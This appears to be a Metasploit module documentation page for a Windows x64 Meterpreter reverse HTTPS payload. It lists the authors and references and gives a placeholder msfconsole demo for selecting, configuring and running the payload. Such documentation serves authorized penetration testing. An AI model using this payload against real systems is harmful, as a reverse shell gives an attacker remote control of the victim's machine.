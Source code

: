 ## Windows Meterpreter Shell, Reverse HTTPS Inline (x64)

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/x64/meterpreter_reverse_https

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter_reverse_https
msf payload(meterpreter_reverse_https) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_https) > set TARGET <target-id>
msf payload(meterpreter_reverse_https) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_https) > run
```
    
    